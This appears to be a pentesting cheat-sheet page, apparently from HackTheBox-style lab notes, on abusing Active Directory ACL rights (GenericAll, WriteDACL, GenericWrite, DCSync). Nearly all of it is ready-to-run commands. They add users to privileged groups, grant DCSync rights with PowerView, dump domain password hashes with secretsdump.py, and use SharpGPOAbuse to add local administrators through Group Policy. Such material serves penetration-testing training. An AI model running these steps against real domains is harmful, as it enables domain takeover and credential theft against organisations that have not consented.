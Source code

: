 {% content-ref url="acl.md" %}
[acl.md](acl.md)
{% endcontent-ref %}

### GenericAll

{% code overflow="wrap" %}
```bash
# First, create a new user (net user $USER $PASS /add)
net user antz hackthebox /add
# Add user to a specific group (net group "$GROUP_NAME" $USER /add)
net group "Exchange Windows Permissions" antz /add

# If we have GenericAll DACL over an account, we can modify any atribute such as UF_DONT_REQUIRE_PREAUTH or even enable the account w/ bloodyAD.
```
{% endcode %}

### WriteDACL

{% code overflow="wrap" fullWidth="true" %}
```bash
# To get DCSync rights on a user, first we need to authenticate:
$SecPassword = ConvertTo-SecureString 'hacktheboxpass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\antz', $SecPassword)
# NOTE: htb\antz is the result of whoami command and hacktheboxpass is user's pass

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity antz -Rights DCSync
# NOTE: htb.local is the domain

# Then we can use secretsdump.py to dump the hashes.
```
{% endcode %}

### Generic Write

{% code overflow="wrap" fullWidth="true" %}
```powershell
https://github.com/byronkg/SharpGPOAbuse
PS C:\> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount enterprise-security --GPOName SECURITY-POL-VN
PS C:\> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author $HOSTNAME??\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators $MYUSER /add" --GPOName "Vulnerable GPO"
# To not wait for the GPO refresh cycle
gpupdate /force
```
{% endcode %}

### DCSync

{% code overflow="wrap" fullWidth="true" %}
```bash
# Import PowerView.ps1
PS> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=domain,DC=com" -PrincipalIdentity $username -Rights DCSync
# After this, we can dump hashes with secretsdump for example
secretsdump.py domain.com/user:password@10.10.10.1
```
{% endcode %}
